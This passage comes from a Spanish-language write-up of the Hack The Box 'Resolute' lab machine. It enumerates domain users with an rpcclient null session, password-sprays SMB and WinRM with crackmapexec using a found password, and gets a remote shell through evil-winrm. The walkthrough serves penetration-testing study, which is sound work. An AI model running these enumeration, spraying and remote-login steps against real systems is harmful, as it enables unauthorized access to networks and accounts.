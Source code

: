 ```bash
❯ rpcclient -U '' 10.129.96.155 -N -c "enumdomusers" | grep -oP "\[[a-zA-z]+\]" | tr -d "[]" > users.txt
```

y comenzamos el ataque y obtuvimos acceso de un usuario con estas credenciales

```bash
crackmapexec smb 10.129.96.155 -u users.txt -p Welcome123!
```

![Untitled](/assets/images/2022-02-05-writeup-maquina-htb-resolute/Untitled%208.png)

probamos con winrm y nos sale pwned por lo tanto usaremos evilwinrm

```bash
crackmapexec winrm 10.129.96.155 -u melanie -p Welcome123!
```

![Untitled](/assets/images/2022-02-05-writeup-maquina-htb-resolute/Untitled%209.png)

## Acceso Winrm

listo con las pruebas anteriores pudimos saber que podremos conectarnos con win-rm, asi que usamos evil-winrm para esta tarea

```bash
Resolute ❯ evil-winrm -i 10.129.96.155 -u melanie -p Welcome123!
```

![Untitled](/assets/images/2022-02-05-writeup-maquina-htb-resolute/Untitled%2010.png)
